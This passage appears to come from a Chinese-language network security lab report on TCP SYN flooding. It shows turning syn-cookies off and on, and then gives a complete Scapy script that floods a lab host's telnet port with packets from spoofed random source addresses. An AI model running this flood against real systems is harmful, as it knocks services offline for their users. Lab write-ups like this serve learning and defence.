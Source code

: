 ```sysctl -w net.ipv4.tcp_syncookies=0```
攻击后：

![image-20230417163536372](assets/image-20230417163536372.png)

CPU占有由小幅度上升

开启syn-cookies机制后，再次攻击

![image-20230417163709164](assets/image-20230417163709164.png)

客户机可以正常连接

### 2.3 scapy 攻击

安装scapy (python3版本)

`sudo apt install python3-scapy`

synflood.py

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="10.9.0.2")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)
```

`sudo python3 synflood.py `

![image-20230417164941776](assets/image-20230417164941776.png)

攻击效果：

![image-20230417164949497](assets/image-20230417164949497.png)